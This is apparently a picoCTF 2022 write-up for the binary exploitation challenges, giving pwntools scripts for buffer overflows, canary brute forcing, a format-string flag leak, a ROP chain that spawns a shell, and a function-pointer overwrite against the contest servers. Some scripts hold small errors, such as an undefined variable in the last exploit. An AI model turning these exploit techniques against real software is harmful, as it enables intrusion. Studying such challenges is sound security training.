



# picoCTF2022 Writeup

This article presents answers to the picoCTF 2022 challenges.
<!--more-->

## basic-file-exploit [Pwn]

The program menu: create or read entries in the database.

```sh
$ nc saturn.picoctf.net 49700
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
```

In the source code, with the input number 0 we can display the flag.

```C
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
  puts(flag);
  fseek(stdin, 0, SEEK_END);
  exit(0);
}
```

Result:


## buffer overflow 0 [Pwn]


## buffer overflow 1 [Pwn]

```
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=96273c06a17ba29a34bdefa9be1a15436d5bad81, for GNU/Linux 3.2.0, not stripped
```

The binary is 32 bits.

```C
void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

The size of the data entered via *gets(buf)* is not controlled, so you can enter anything.

This can cause a buffer overflow.

It is enough to control the return address to redirect the flow of execution to the *win()* function to display the flag.


In gdb, I placed a breakpoint on the *ret* of *vuln()*


For a test, I send this payload: "A"*(32+4+4+4) + "BBBB"


The EIP is well reached.

It remains to redirect the execution flow to the *win()* function at address *0x080491f6*.

```python
from pwn import *

#sh = process("./vuln")
sh = remote("saturn.picoctf.net",54376)
print(sh.recv().decode())
sh.sendline(b"A"*(32+4+4+4)+p32(0x080491f6))
sh.interactive()
```

Result:


## RPS [Pwn]

```C
if (wins >= 5) {
  puts("Congrats, here's the flag!");
  puts(flag);
}
```
If we win 5 times, we have the flag.

```C
char* hands[3] = {"rock", "paper", "scissors"};
char* loses[3] = {"paper", "scissors", "rock"};
....
int computer_turn = rand() % 3;
printf("You played: %s\n", player_turn);
printf("The computer played: %s\n", hands[computer_turn]);

if (strstr(player_turn, loses[computer_turn])) {
  puts("You win! Play again?");
  return true;
} else {
  puts("Seems like you didn't win this time. Play again?");
  return false;
}
```
To win, the computer choice must exist in the player choice.

So I used *paperscissorsrock* to win all 5 times.


## x-sixty-what [Pwn]

Overflow x64 code

```python
from pwn import *
sh = process("./vuln")
print(sh.recv().decode())
sh.sendline(b"A"*(64+8) + p64(0x00401236)) # flag() adresse: 0x00401236  
sh.interactive()
```

It worked locally but not on the remote server.

This is a Movaps stack alignment issue.


##### Movaps stack alignment

If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system()[Read more...](https://ropemporium.com/guide.html)

The solution is to call the ret of the other address one more time before calling the flag() function when designing the overflow stack, so that the rsp address can be reduced by 8.

I used the return address from init.
To find it: objdump vuln -M intel --disassemble=_init


```python
from pwn import *
sh = remote("saturn.picoctf.net",58049)
print(sh.recv().decode())
sh.sendline(b"A"*(64+8) + p64(0x0040101a) + p64(0x00401236))
sh.interactive()
```



## buffer overflow 2 [Pwn]

Control the return address and arguments

32 bits function call: fun_addr + 4 bytes + arg0 + arg1 + arg2 + .... + argn

```python
from pwn import *


sh = remote("saturn.picoctf.net",60889)
print(sh.recv().decode())
sh.sendline(b"A"*(100+4+4+4) + p32(0x08049296) + b"P"*4 + p32(0xCAFEF00D) + p32(0xF00DF00D))
sh.interactive()
```


## buffer overflow 3 [Pwn]

Brute force canary:

```python
from pwn import *


canary = b''

while len(canary) < 4:
	for i in range(256):
		sh = remote("saturn.picoctf.net",54629)
		sh.sendlineafter('> ', '{}'.format(64 + len(canary) + 1))

		a = '{}'.format(chr(i))
		sh.sendlineafter('> ', b'A' * 64 + canary + a.encode())

		log.info('Partial canary: {}'.format(canary))

		if b'*** Stack Smashing Detected' not in sh.recvline():
			canary += chr(i).encode()
			log.info('Partial canary: {}'.format(canary))
			break

		sh.close()

log.info('Found canary: {}'.format(canary))
```


Exploit:

```python
from pwn import *

canary = b"BiRd"

while True:
    p = remote("saturn.picoctf.net",60398)
    p.sendlineafter("Buffer?\n> ", str(0x100)) # Size of payload
    payload = b"A"*64 + canary + b"A"*16 + p32(0x08049336)
    p.sendlineafter("Input> ", payload)
    out = p.recvall()
    if b"pico" in out:
        print(out.decode())
        break
    p.close()
```


## flag leak [Pwn]

Format Strings


```python
from pwn import *

for i in range(100):
	sh = remote("saturn.picoctf.net",50120)
	print(sh.recv().decode())
	payload = '%{}$s'.format(i)
	sh.sendline(payload.encode())
	data = sh.recvall()
	print(data)
	sh.close()
```


Flag: picoCTF{L34k1ng_Fl4g_0ff_St4ck_eb9b46a2}


## ropfu [Pwn]

What's ROP?

Static ROP

I created my shellcode from the ROP gadgets.

```
ROPgadget --binary ./vuln --rop --badbytes "0a"
```

Exploit :

```python
from pwn import *
import sys
import subprocess

sh = remote("saturn.picoctf.net",55455)


# ROPgadget --binary ./vuln --rop --badbytes "0a"
from struct import pack

p = b'a'*(16+4+4+4)
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b074a) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5064) # @ .data + 4
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b074a) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0804fb90) # xor eax, eax ; ret
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x08049022) # pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x08049e39) # pop ecx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x080e5060) # padding without overwrite ebx
p += pack('<I', 0x0804fb90) # xor eax, eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0804a3d2) # int 0x80

print(sh.recv().decode())

sh.sendline(p)

sh.interactive()
```


## wine [Pwn]

I solved this challenge directly without working on the binary (gdb, etc..)

```python
from pwn import *

sh = remote("saturn.picoctf.net",56673)
print(sh.recv().decode())
payload = b"A"*(128+4+4+4) + p32(0x00401530)
sh.sendline(payload)
sh.interactive()
```


## function overwrite [Pwn]




When I read the code, I realized that *check* points to *hard_checker*.

To exploit it, you would have to point *check* to *easy_checker*.

Then, you have to fill *story* with values whose sum is equal to *1337*



*story* could be *abcdefghijklk*, the sum is indeed equal to *1337*.

To point *check* to *easy_checker*, I thought of  [Write-what-where Condition](https://www.martellosecurity.com/kb/mitre/cwe/123/)

*vuln()* fonction

```C
......
if (num1 < 10)
{
  fun[num1] += num2;
}
.....
```

We will use the integer array *fun* to access *check* in order to point it to *easy_checker*.

We will use the index num1 of the array *fun* to access *check* and num2 to modify its value.

First, we determine the offset between *fun* and *check* for *num1*.


```
0x0804c040  check
0x0804c080  fun
```

```python
0x0804c080 - 0x0804c040 = 64
fun - check = 64
fun - 64 = check
```

To access *check* you have to subtract 64 from the address of *fun*.

As num1 is of type int, **num1 = -64/sizeof(int)**



Second, we point *check* to *easy_checker*.

*check* points to *hard_checker*

To point it to *easy_checker*, we must first determine the offset between *hard_checker* and *easy_checker*.

```python
0x8049436 - 0x80492fc = 314
hard_checker - easy_checker = 314
hard_checker - 314 = easy_checker
```
So, to point *check* to *easy_checker* we have to subtract 314 from the address of *hard_checker*.
As *check* contains the address of *hard_checker*, we decrease its value by 314.

**num2 = -314**


Exploit:

```python
from pwn import *

sh = remote("saturn.picoctf.net",53163)
print(sh.recv().decode())
sh.sendline(b"abcdefghijklk")
print(sh.recv().decode())
sh.sendline(b"-16 -314")
print(sh.recv().decode())
```

Result:



## stack cache [Pwn]

```c
#define BUFSIZE 16
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  char filler[BUFSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
}
```
The **win()** function does not display the flag but reads it from the buf array.

We need to find a way to disclose the flag contained in array buf.

```c
#define BUFSIZE 16
void UnderConstruction() {
        // this function is under construction
        char consideration[BUFSIZE];
        char *demographic, *location, *identification, *session, *votes, *dependents;
	char *p,*q, *r;
	// *p = "Enter names";
	// *q = "Name 1";
	// *r = "Name 2";
        unsigned long *age;
	printf("User information : %p %p %p %p %p %p\n",demographic, location, identification, session, votes, dependents);
	printf("Names of user: %p %p %p\n", p,q,r);
        printf("Age of user: %p\n",age);
        fflush(stdout);
}
```
The **UnderConstruction()** function will do the trick.

Now just redirect the execution flow to the **win()** function and then to the **UnderConstruction()** function.

```python
from pwn import *

sh = remote('saturn.picoctf.net', 56141)

eip = p32(0x08049da0) # win()
esp = p32(0x08049e20) # UnderConstruction()

print(sh.recvuntil(b"Give me a string that gets you the flag").decode())
sh.sendline(b"A"*(10 +4) + rip + esp)
sh.interactive()
```


I wrote a python script for that.

```python
from binascii import unhexlify

cache = ['080c9a04', '0804007d', '61333337', '31646239', '5f597230', '6d334d5f', '50755f4e', '34656c43', '7b465443', '6f636970']
flag = ""
for pin in cache:
	try:
		flag += unhexlify(pin).decode()
	except:pass

print(flag[::-1])
```

